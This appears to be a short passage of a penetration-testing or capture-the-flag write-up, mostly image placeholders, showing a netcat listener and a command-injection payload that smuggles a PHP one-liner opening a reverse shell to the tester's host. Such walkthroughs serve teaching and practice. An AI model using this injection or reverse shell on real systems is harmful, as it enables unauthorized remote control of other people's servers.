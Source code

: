 <figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

So there is PHP on this host, we could've tried with python or other stuff, but the webpage is a .php so it was easy hit

<figure><img src="../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

```
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp  9897
listening on [any] 9897 ...
```

remember to open a listener on your machine ->

```
; php -r '$sock=fsockopen("172.16.X.X",9897);exec("/bin/sh -i <&3 >&3 2>&3");'; asd
```

<figure><img src="../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>
